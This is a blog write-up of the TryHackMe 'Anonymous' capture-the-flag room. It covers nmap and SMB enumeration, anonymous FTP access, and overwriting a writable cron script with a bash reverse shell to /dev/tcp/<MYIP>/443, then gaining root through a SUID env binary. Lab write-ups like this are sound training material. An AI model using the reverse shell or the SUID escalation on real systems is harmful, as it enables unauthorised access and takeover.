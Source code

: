 ```yaml
---
title: Anonymous tryhackme writeup 
date: 2022-04-30 23:00:00 +0200
categories: [Blog, Writeup]
tags: [writeup, tryhackme, pentesting, pen, testing, hacking, ethical, anonymous, ftp]
comments: false

---
```


Today I'm going to be resolving the Anonymous room from tryhackme that is rated as Medium, but i see it more like an Easy and fast one. Take a sit and enjoy it!

# Scanning
As i always do, I start with a fast nmap scan to discover what ports are open and another scan with -sCV options to check the services and versions.
I quickly see that there are 4 ports open and they are for **ftp, ssh,** and two for **smb**
![Nmap scan for open ports](/assets/img/anon/001.png)
_First scan with Nmap_
![Nmap scan for versions](/assets/img/anon/002.png)
_Versions scan_

I can see with the versions script that the anonymous ftp login is active so i log in as **anonymous** with no password.
There's a hidden folder named scripts and there is this inside:
![Ftp contents](/assets/img/anon/003.png)
_Contents of ftp's scripts directory_
Before continuing with the files, i want to run **enum4linux** to see if there is a share in the smb service, because the room asks for the name of it.
And there it is, there are just pics inside, i could try to check with steghide but i prefer to continue with ftp files.
![smb share name](/assets/img/anon/004.png)
_Share name in smb_

# Gaining acces
s
I downloaded everything and the file **clean.sh** looks like this:
![script code](/assets/img/anon/005.png)
_clean.sh code_


It could be affected by a cronjob because **removed_files.log** has a lot of lines that says that nothing was removed by **clean.sh**
and this could mean that this is a periodical task. With this in mind i check the script's permissions and i can write, so i modify it to get a reverse shell:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<MYIP>/443 0>&1'
```

After waiting one minute i get the reverse shell as _namelessone_ 

![Access as namelessone](/assets/img/anon/006.png)
_Access gained as namelessone_

# Privilege escalation

The first thing i do is see what is inside this user's home directory and the user.txt flag is there next to the **pics** folder i saw with enum4linux.
![user flag found](/assets/img/anon/007.png)
_user.txt flag found_

Before trying to do anything with the pics i checked what SUID files are in the server and **env** was one of them. Running this line I gained access as root:

```bash
env /bin/sh -p
```

![root access](/assets/img/anon/008.png)
_Access gained as root!_

The last flag is in root directory as usually does:

![root flag found](/assets/img/anon/009.png)
_root.txt flag found_


This was an easy one for me, but at least it was funny.Thank you for reading me and have a good day!
